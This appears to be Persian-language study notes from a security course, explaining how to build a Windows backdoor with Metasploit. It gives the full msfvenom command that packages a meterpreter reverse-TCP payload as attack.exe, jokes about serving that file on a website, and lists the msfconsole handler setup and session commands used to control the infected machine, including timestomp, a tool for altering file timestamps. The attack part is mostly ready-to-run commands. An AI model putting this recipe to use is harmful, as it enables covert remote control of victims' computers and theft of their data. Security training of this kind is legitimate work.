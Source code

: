 $\color{#b91646}{\textsf{MSFvenom backdoor}}$
=============================================

برنامه ی metasploit یه مکانیزمی داره برای درست کردن backdoor توی ویندوز

برنامه ی metasploit یک مجموعه ابزار بزرگیه که به ما اجازه میده exploit هایی که از قبل نوشته شده رو اجرا کنیم.

اینجا از ابزار **msfvenom** استفاده می کنیم.


ایده -> می خوام یه payload درست کنم که یه فایل exe. است. توی metasploit کالی یه سیستمی بذارم که شنود می کنه، در واقع منتظر connection است و در نهایت فایل exe. رو بفرستم برای یه سیستم ویندوزی که روی ماشینش اجرا بشه و بعد exe. به metasploitable وصل می شم و می تونیم از طریق متااسپلویت command هایی بزنیم که قربانی رو کنترل کنیم..

نوشتن برنامه ی exe. پیچیده است در نتیجه از metasploit framework درخواست می کنیم که همچین چیزی رو برامون بنویسه.


To create payloads `root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.117 LPORT=1234 --format=exe > attack.exe` and then serve it on a website :D

به MSFvenom بگم یه دونه فایل اجرایی به من بده که اون exploit خاص توش هست.

خودمون انتخاب می کنیم می خوایم از windows/meterpreter/reverse_tcp استفاده کنیم. (از نظر منطقی TCP connection می خوام و می خوام اون به من وصل بشه پس می شه reverse_tcp) -> payload

کانفیگ های local host و local port رو مشخص می کنیم. (باید بگیم وصل شه به چی. IP و Port سیستم خودمون که mfs روش هست رو میدیم.)

حالا به mfs می گیم چی درست کن یعنی format فایل درخواستی رو مشخص می کنیم.

می گیم چه payload ای رو در چه فرمتی بریز.

در نهایت خروجی رو در فایل attack.exe بریز.




`> msfconsole`

`> db_staus`

`> use exploit/multi/handler`

`> set payload windows/meterpreter/reverse_tcp`

`> set LHOST 192.168.0.117`

`> set LPORT 1234`

`> exploit -j -z`

RUN

`> sessions -i`

`> sessions -i 1`

`> cd, ls, pwd, sysinfo, ipconfig, getuid, cat, timestomp,`


